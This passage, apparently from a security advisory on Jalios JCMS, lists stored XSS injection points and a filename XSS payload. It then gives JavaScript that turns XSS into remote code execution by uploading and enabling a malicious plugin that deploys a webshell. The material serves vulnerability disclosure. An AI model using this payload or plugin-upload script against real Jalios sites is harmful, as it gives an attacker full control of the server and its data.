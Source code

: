```html
</html>
```

- Stored on `/admin/adminProperties.jsp` in the parameters `vote_default_value` and `channel_urid`.   

- Stored on `/work/mediaBrowser.jsp` in the filename. Triggered on the image preview: `/work/doMediaBrowserPreview.jsp?fileDocID=753666_Media&selectMode=false&itemIdx=1&first=true&last=false`
![Preview XSS](./img/11.png)

## Self XSS
The filename allows for an XSS in the upload form on `/work/pubBrowser.jsp?ws=j_4&mode=all&super=com.jalios.jcms.Content&classname=`: 
```
File: "'><img src=x onerror=alert(1337)>.pdf
```
![self](./img/8.png)

## XSS To RCE using plugin upload feature.

It is possible to upload a malicious plugin deploying a webshell on the Jalios instance.  
Here is a JavaScript code to upload a shell.jsp file:

```javascript
var malicious_plugin = " plugin zipped (hex) " 
const base_url = "/jalios" // To Edit depending your basepath 

function hexToBlob(hexString) { 
    const arrayBuffer = new Uint8Array(hexString.match(/.{1,2}/g).map(byte => parseInt(byte, 16))).buffer; 
    return new Blob([arrayBuffer], { type: 'application/octet-stream' }); 
} 

function upload() { 
    var formData = new FormData(); 
    formData.append("archive", new Blob([hexToBlob(malicious_plugin)], { type: "application/octet-stream" }), "Webshell_0.1.zip"); 
    formData.append("opDeploy", true) 
    formData.append("opUpload", true) 

    var stage1 = new XMLHttpRequest(); 
    stage1.open("POST", `${base_url}/admin/displayPlugin.jsp`, false); 
    stage1.send(formData); 
    console.log("Plugin uploaded"); 
    
    var stage3 = new XMLHttpRequest(); 
    stage3.open("GET", `${base_url}/admin/editPlugin.jsp?value=true&opEnable=true&name=Webshell&redirect=admin%2FdisplayPlugin.jsp%3Fname%3DWebshell`, false); 
    stage3.send(); 
    console.log("Plugin enabled"); 
} 

upload();
```
